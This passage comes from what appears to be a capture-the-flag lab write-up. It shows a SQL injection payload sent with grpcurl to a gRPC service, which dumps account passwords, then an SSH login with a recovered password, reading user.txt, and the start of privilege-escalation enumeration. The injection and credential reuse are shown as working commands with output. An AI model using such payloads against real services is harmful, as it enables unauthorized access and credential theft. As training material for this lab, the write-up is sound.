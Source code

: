 There are three rows in `accounts`:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "admin:admin,sau:HereIsYourPassWord1431,0xdf:0xdf0xdf"
    

admin has the password admin, and sau has the password
“HereIsYourPassWord1431”.

### SSH

That password works for sau over SSH:

    
    
    oxdf@hacky$ sshpass -p HereIsYourPassWord1431 ssh sau@10.10.11.214
    sau@pc:~$
    

And I can read `user.txt`:

    
    
    sau@pc:~$ cat user.txt
    1b0d383d************************
    

## Shell as root

### Enumeration

#### sau

sau cannot run `sudo`:

    
    
    sau@pc:~$ sudo -l
    [sudo] password for sau: 
    Sorry, user sau may not run sudo on localhost.
    

Their home directory is empty as well:

    
    
    sau@pc:~$ ls -la
    total 28
    drwxr-xr-x 3 sau  sau  4096 Jan 11 18:09 .
    drwxr-xr-x 3 root root 4096 Jan 11 18:10 ..
    lrwxrwxrwx 1 root root    9 Jan 11 18:08 .bash_history -> /dev/null
    -rw-r--r-- 1 sau  sau   220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 sau  sau  3771 Feb 25  2020 .bashrc
    drwx------ 2 sau  sau  4096 Jan 11 17:43 .cache
    -rw-r--r-- 1 sau  sau   807 Feb 25  2020 .profile
    lrwxrwxrwx 1 root root    9 Jan 11 18:09 .viminfo -> /dev/null
    -rw-r----- 1 root sau    33 May 24 12:44 user.txt
    